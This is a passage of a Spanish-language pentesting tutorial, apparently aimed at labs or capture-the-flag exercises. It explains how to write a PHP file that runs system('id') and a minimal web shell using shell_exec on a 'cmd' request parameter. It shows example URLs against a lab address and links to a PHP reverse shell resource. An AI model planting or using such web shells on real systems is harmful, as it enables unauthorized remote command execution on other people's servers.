 Así que este texto:

```bash
"<?php\nsystem('id');\n?>"
```

Cuando se imprime, realmente se ve así:

```php
<?php
system('id');
?>
```

#### 3️⃣ `> prueba.php`

`>` redirige la salida del comando (el texto que `echo` imprime) a un archivo.

- En este caso, lo guarda en un archivo llamado `prueba.php`.
- Si el archivo ya existe, lo sobrescribe.

---


### 🔸 Ejemplo más flexible con `shell_exec`

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

Esta última opción permite ejecutar **comandos arbitrarios** pasados como parámetro `cmd` en la URL.

---

### 🌐 Ejemplo de uso

```text
http://172.17.0.2/<RUTA_DONDE_SE_ALOJA_EL_ARCHIVO>/<ARCHIVO_PHP>?cmd=<COMANDO>
```

Por ejemplo:

```text
http://172.17.0.2/uploads/shell.php?cmd=whoami
```

---

### ⚠️ Notas importantes

- No siempre se puede ejecutar directamente la reverse shell o el comando desde la propia página.
- En ocasiones es necesario **subir el script PHP adecuado** que te permita abrir la reverse shell o ejecutar comandos como se desee.

---

✅ Recurso recomendado para obtener un PHP reverse shell listo:

- [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

---


---

